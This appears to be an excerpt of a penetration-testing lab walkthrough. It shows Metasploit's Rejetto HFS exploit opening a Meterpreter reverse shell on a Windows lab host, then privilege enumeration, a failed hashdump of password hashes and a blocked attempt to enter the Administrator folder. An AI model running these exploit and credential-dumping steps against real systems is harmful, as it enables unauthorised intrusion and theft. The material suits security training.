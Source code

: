 ```
   --  ----
   0   Automatic

```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] Using URL: http://0.0.0.0:8080/e9cP9Th
[*] Local IP: http://10.10.21.2:8080/e9cP9Th
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /e9cP9Th
[*] Sending stage (200262 bytes) to 10.0.29.37
[!] Tried to delete %TEMP%\TuCwOgHO.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.21.2:4444 -> 10.0.29.37:49755) at 2023-02-16 18:22:11 +0530
[*] Server stopped.

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

```

```
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > cd C:\\
meterpreter > cd Users
meterpreter > cd Administrator 
[-] stdapi_fs_chdir: Operation failed: Access is denied.
```
